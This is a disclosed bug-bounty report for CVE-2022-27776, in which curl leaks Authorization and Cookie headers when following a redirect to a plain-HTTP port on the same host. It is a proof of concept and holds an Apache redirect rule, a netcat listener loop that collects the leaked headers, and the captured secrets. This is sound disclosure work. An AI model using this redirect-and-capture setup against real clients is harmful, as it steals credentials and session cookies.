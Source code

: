 # CVE-2022-27776: Auth/cookie leak on redirect

## Report Details
- **Report ID**: 1551591
- **URL**: https://hackerone.com/reports/1551591
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-04-27T07:10:47.699Z
- **Disclosed**: 2022-04-29T06:32:42.601Z

## Reporter
- **Username**: nyymi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
## Summary:
curl/libcurl can be coaxed to leak Authorization / Cookie headers by redirecting request to http:// URL on the same host. Successful exploitation requires that the attacker can either Man-in-the-Middle the connection or can access the traffic at the recipient side (for example by redirecting to a non-privileged port such as 9999 on the same host).

## Steps To Reproduce:

1. Configure for example Apache2 to perform redirect with mod_rewrite:
   ```
   RewriteCond %{HTTP_USER_AGENT} "^curl/"
   RewriteRule ^/redirectpoc http://hostname.tld:9999 [R=301,L]
    ```
  ... the attacker could also use `.htpasswd` file to do so.
  2. Set up netcat to listen for the incoming secrets:
    `while true; do echo -ne 'HTTP/1.1 404 nope\r\nContent-Length: 0\r\n\r\n' | nc -v -l -p 9999; done`
  3. `curl-L -H "Authorization: secrettoken" -H "Cookie: secretcookie" https://hostname.tld/redirectpoc`
 
The redirect will be followed, and the confidential headers sent over insecure HTTP to the specified port:
```
GET / HTTP/1.1
Host: hostname.tld:9999
User-Agent: curl/7.83.0-DEV
Accept: */*
Authorization: secrettoken
Cookie: secretcookie
```

The attack could also use HTTPS and a valid certificate, In this case the leaked headers are of course only be visible to the listening http server.

This vulnerability is quite similar to `CVE-2022-27774` and the fix is similar too: If the protocol or port number differs from the original request strip the Authorization and Cookie headers.

This bug appears to be at: 
- https://github.com/curl/curl/blob/94ac2ca7754f6ee13c378fed2e731aee61045bb1/lib/http.c#L1904
- https://github.com/curl/curl/blob/94ac2ca7754f6ee13c378fed2e731aee61045bb1/lib/http.c#L850

## Impact

Leak of Authorization and/or Cookie headers.

## Attachments
No attachments

